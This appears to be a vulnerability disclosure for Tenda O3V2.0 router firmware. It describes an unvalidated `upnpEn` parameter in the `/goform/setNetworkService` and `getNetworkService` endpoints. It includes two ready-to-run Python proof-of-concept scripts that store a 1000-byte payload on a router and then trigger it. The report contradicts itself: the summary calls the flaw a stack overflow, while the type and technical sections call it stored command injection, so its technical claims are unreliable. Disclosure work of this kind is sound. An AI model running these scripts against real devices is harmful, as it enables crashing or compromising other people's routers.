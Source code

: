## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `upnpEn` POST parameter accepted by `/goform/setNetworkService` is written to the configuration key `adv.upnp.en` via `SetValue` without length or content validation. The stored value is later read (via `/goform/getNetworkService`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type:** Command injection (persistent / stored)
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle `adv.upnp.en`.

## Technical details

- The `setNetworkService` endpoint accepts a POST parameter `upnpEn` and calls `SetValue("adv.upnp.en", Var)` without enforcing a maximum length or sanitizing shell metacharacters.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_111238.png)

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_111355.png)

- The `getNetworkService` endpoint reads `upnpEn` via `GetValue("adv.upnp.en", v64)` and passes it into a shell-invoking context (or a system call) without sanitization, making stored payloads executed when the endpoint is processed.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_111649.png)

Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `adv.upnp.en` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setNetworkService"
payload =  b"a"*1000

data = {"upnpEn":payload}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getNetworkService"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)
